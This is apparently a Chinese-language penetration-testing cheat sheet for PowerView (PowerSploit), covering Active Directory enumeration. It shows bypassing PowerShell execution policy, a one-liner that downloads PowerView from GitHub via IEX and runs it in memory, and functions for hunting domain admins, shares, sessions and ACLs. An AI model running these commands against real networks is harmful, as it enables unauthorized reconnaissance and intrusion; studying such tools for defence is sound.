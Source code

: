 powerview
===========================

powerview


powerview github
-----------------

`powerview github master`_

`powerview github dev`_

.. _powerview github master: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1#L13403
.. _powerview github dev: https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1



powerview command
-----------------
powershell收集域内信息

PS C:\Users\Administrator> Get-ExecutionPolicy
Restricted

PS C:\Users\Administrator> Set-ExecutionPolicy Unrestricted
执行策略更改
执行策略可以防止您执行不信任的脚本。更改执行策略可能会使您面临 about_Execution_Policies
帮助主题中所述的安全风险。是否要更改执行策略?
[Y] 是(Y)  [N] 否(N)  [S] 挂起(S)  [?] 帮助 (默认值为“Y”): y

PS C:\Users\Administrator> Get-ExecutionPolicy
Unrestricted

但是如果我们只有cmd命令下,并且策略无法更改怎么办？？？
powershell -exec bypass "import-module c:\powershell.ps1;Get-NetUser"

powershell内存加载方式收集域内信息
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');Invoke-EnumerateLocalAdmin > C:\Programdata\test.txt"

PS C:\> import-module .\powerview.ps1

Get-NetDomain	//获取当前的域名称

Get-Netuser	//返回所有域内成员的详细信息

Get-NetDomainController	//获取所有的域内的控制器信息

Get-NetComputer	//获取所有域内机器的名称

Get-Netshare	//获取域内的所有的网络共享

Get-NetRDPSESSION	//获取指定服务的远程连接信息

Get-NetProcess	//获取进程的详细信息

Get-ADObJECT	//获取活动目录的信息

Get-ADTrust	//获取域信任关系

Invoke-ProcessHunter	//Query the process lists of remote machines, searching for processes with a specific name or owned by a specific user.

Invoke-ShareFinder	//This function finds the local domain name for a host using Get-NetDomain,queries the domain for all active machines with Get-NetComputer, then for each server it lists of active shares with Get-NetShare. Non-standard shares can be filtered out with -Exclude* flags.

Invoke-FileFinder	//This function finds the local domain name for a host using Get-NetDomain,queries the domain for all active machines with Get-NetComputer, grabs the readable shares for each server, and recursively searches everyshare for files with specific keywords in the name.If a share list is passed, EVERY share is enumerated regardless of other options.

Get-ADDefaultDomainPasswordPolicy	//查询域密码策略

Get-ObjectAcl	//Returns the ACLs associated with a specific active directory object.

Get-NetOU	//获取域中OU信息

Get-NetGroup	//获取所有域内组和组成员信息

Get-NetFileServer	//根据SPN获取当前域使用的文件服务器

Get-NetSession	//获取在指定服务器存在的Session信息

Get-NetGPO	//获取域所有组策略对象

Get-DomainPolicy	//获取域默认或域控制器策略

Invoke-UserHunter	//搜索网络中域管理员正在使用的主机 This function finds the local domain name for a host using Get-NetDomain,queries the domain for users of a specified group (default "domain admins")with Get-NetGroupMember or reads in a target user list, queries the domain for all active machines with Get-NetComputer or reads in a pre-populated host list,randomly shuffles the target list, then for each server it gets a list of active users with Get-NetSession/Get-NetLoggedon. The found user list is compared against the target list, and a status message is displayed for any hits.The flag -CheckAccess will check each positive host to see if the current user has local admin access to the machine.

Get-NetLocalGroup	//Gets a list of all current users in a specified local group,or returns the names of all local groups with -ListGroups.

Invoke-EnumerateLocalAdmin	//This function queries the domain for all active machines with Get-NetComputer, then for each server it queries the local Administrators with Get-NetLocalGroup.










